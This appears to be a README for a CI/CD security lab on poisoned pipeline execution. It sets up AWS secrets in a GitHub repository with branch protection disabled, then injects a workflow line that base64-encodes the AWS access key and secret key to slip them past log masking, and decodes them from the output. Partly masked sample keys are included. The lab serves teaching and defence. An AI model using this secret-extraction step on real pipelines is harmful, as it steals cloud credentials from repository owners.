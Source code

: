 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build`

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBBS0xxxxXSEpCQzRYTlNKRSAgc2VjcmV0a2V5OiBBYmJYd1pxd2tMeExmZxxxxQUkhOdU1aR0lkd3d2QjcrRFBpCg==" | base64 -d
accesskey: AKIA2INxxxxx4XNSJE  secretkey: AbbXwZqwkLxLfgfSxxxxxGIdwwvB7+DPi
```